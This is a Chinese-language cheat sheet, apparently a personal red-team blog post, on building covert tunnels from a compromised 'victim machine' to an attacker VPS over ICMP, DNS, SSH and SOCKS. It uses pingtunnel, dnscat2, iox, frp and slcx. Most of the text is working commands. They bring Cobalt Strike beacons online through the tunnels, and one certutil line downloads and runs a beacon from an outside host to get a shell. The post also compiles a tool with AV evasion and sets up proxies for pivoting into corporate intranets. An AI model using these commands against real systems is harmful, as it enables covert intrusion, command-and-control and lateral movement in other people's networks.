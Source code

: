 ```yaml
---
title: 内网隧道搭建
date: 2023-01-11 15:11:40 +0800
categories: 
tags: 
permalink: /posts/id=79/
pin: false
published:
---
```

## ICMP隧道
```shell
# VPS
sudo ./pingtunnel -type server -key 000000


# 受害机
pingtunnel.exe -type client -l 127.0.0.1:2222 -s 150.158.144.112 -t 150.158.144.112:3333 -tcp 1  -key 000000

# 建立隧道从受害机的2222端口到VPS的3333端口，隧道内通过ICMP传输


# 接入CS
CS🐎设置为反弹到受害机2222端口，这样就能通过隧道传回shell
创建2个监听器icmp_port/cs_port，生成一个反弹到受害机2222端口的beacon
受害机执行beacon.exe即可上线


# 进一步可以实现内网穿透(任意使用公司内网)
省略 搭建ICMP TCP隧道
# 受害机 将受害机的网络环境socks5代理到受害机2222端口，2222是隧道入口，iox 代理的 Socks 流量将通过 ICMP 隧道出网
.\iox.exe proxy -r 127.0.0.1:2222  #先操作


# VPS 将VPS3333端口收到的流量转发到4444端口
./iox proxy -l 3333 -l 4444

# 通过 proxifier 代理 socks 流量， VPS4444端口  实现本机访问内网

# tips


# -noprint 1 -nolog 1

#pingtunnel.exe -type client -l :[转发本机2222端口作为ICMP隧道通讯端口] -s [服务端IP] -[转发类型] 1 -noprint 1 -nolog 1
```


## DNS隧道搭建

```shell
# 配置域名解析
ns1 A 150.158.144.112
log ns ns1.e4l4.com
# 开启VPS TCP UDP 53端口放行
# test  VPS:sudo tcpdump -n -i eth0 udp dst port 53   受害机：nslookup log.e4l4.com

# 关闭DNS解析服务
sudo service systemd-resolved stop
# sudo service systemd-resolved start
sudo ruby dnscat2.rb log.e4l4.com -c 000000

.\dnscat2-v0.07-client-win32.exe --secret=000000 log.e4l4.com --delay 5000



# 接CS
# 建立DNS隧道，同时获取shell
# VPS端
sudo ruby ./dnscat2.rb log.e4l4.com -e open -c 000000 --no-cache
# 受害者端
.\dnscat2-v0.07-client-win32.exe --secret=000000 log.e4l4.com --delay 5000

# VPS端
session -i 1
shell //获取真shell
session -i 2 

# 把生成的beacon.exe(反弹到VPS3333端口)放到VPS上，用python开http
python3 -m http.server 4444
# 在已有的shell里下载
certutil.exe -urlcache -split -f http://e4l4.com:4444/beacon_x64.exe C:\Users\Public\beacon.exe

C:\Users\Public\beacon.exe
```

## ssh隧道（纯内网目标机）

需要跳板机

```shell
# VPS增加ssh端口转发
sudo vim /etc/ssh/sshd_config

GatewayPorts no改成yes

sudo systemctl restart sshd.service
```


## vpn隧道

### cs自带的vpn隧道

似乎只能工作在windows server 上
操作文章：
https://xz.aliyun.com/t/12500?time__1311=mqmhD50IZD8D%2FD0lD2DUo4fobK%3D0Q5F%3DF4D&alichlgref=https%3A%2F%2Fwww.google.com.hk%2F#toc-2

### Openvpn

## Socks代理
有socks4和5两种类型，socks4只支持TCP协议而socks 5支持TCP/UDP协议，还支持各种身份认证机制等协议

Iox
```bash
# VPS
./iox proxy -l 9999 -l 3333

# 受害机
iox.exe proxy -r e4l4.com:9999


连接e4l4.com:3333即可
```


Frp 
frps完整配置：https://github.com/fatedier/frp/blob/dev/conf/frps_full_example.toml
frpc完整配置：https://github.com/fatedier/frp/blob/dev/conf/frpc_full_example.toml
```bash
# VPS 绑定IP默认为本机，监听7000端口
nohup ./frps -c frps.toml >/dev/null 2>&1 &
# frps.toml
bindPort = 7000
# 受害机
nohup ./frpc -c frpc.toml >/dev/null 2>&1 &
# frpc.toml
serverAddr = "150.158.144.112"
serverPort = 7000
# 添加的Socks5代理配置
[[proxies]]
name = "socks5_proxy"  # Socks5代理的名称
type = "tcp"
remotePort = 3333      # Socks5代理的远程端口，可以根据需要更改
plugin = "socks5"
# plugin_user = "your_username"  # 如果需要用户名和密码认证，取消这两行的注释并设置用户名和密码
# plugin_passwd = "your_password"

连接e4l4.com:3333即可
```


## Slcx端口转发(iox平替)

```shell
# 免杀编译
# windows端
# 可修改文件里的密钥
$env:GOOS="windows"; $env:GOARCH="amd64"; go build -ldflags="-s -w" -o e4l4.exe


go build -ldflags="-s -w" -o 



# VPS端 将受害机发送到4443的流量转发到4444端口
./slcx :4443 0.0.0.0:4444 --laoban


# 将受害本机的22端口转发到VPS上的4443端口
.\slcx.exe 127.0.0.1:22 150.158.144.112:4443 --niuma
```












